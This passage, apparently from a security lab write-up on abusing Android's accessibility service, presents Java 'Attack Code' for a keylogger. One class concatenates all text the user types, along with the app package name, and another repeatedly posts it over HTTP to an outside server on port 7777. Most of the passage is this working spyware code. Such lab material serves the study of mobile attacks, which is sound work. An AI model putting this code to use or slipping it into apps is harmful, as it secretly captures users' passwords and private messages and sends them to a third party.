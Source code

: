 \paragraph{Attack Code}
Before performing the attack, we will first talk about how a legitimate
application can use the accessibility service and how we use it in a
malicious way. 

\textbf{Capturing events from accessibility service : } 
After getting required permissions, we need to create a class which extends
"AccessibilityService". we can use an object of "AccessibilityEvent" to
capture various different events and do with them as we please:

\begin{lstlisting}
public class getAccessibilityEvent extends AccessibilityService {
...
public void onAccessibilityEvent(AccessibilityEvent event) {
	 Log.d("Event 1",event.getPackageName());
	 Log.d("Event 2",event.getText());
	 Log.d("Event 3",event.getPackageName());
	 Log.d("Event 4",event.getEventTime());
...
        }
}
\end{lstlisting}

\textbf{Malicious usage of the Accessibility service : } 
One example of malicious usage could be to send out everything typed by the
user to our server. In our application, we use a stringbuilder to
concatenate everything typed by the user and repeatedly send this out to
our server :

\begin{lstlisting}
public class getAccessibilityEvent extends AccessibilityService {
...
private String getEventText(AccessibilityEvent event) {
            StringBuilder sb = new StringBuilder();
            for (CharSequence s : event.getText()) {
                sb.append(s);
            }
            return sb.toString();
        }
...
 public void onAccessibilityEvent(AccessibilityEvent event) {
            s = "package=" + event.getPackageName() + "&" + "text=" + getEventText(event);
            new SendData(s).execute();
        }
...
}
\end{lstlisting}

\textbf{SendData} is a class which extends AsyncTask used to send data out of the device.

\begin{lstlisting}
class SendData extends AsyncTask<String, Void, Void> {
    String s;
    public SendData(String a)
    {
        s=a;
    }
    private Exception exception;
    protected Void doInBackground(String... urls) {
            URL url = null;
            url = new URL("http://www.SeedLabClickjacking.com:7777");
            HttpURLConnection urlConnection = null;
            urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setDoOutput(true);
            urlConnection.setChunkedStreamingMode(0);
            OutputStream out = new BufferedOutputStream(urlConnection.getOutputStream());
            out.write(s.getBytes());
            out.flush();
            urlConnection.disconnect();
       }
        return null;
    }
\end{lstlisting}

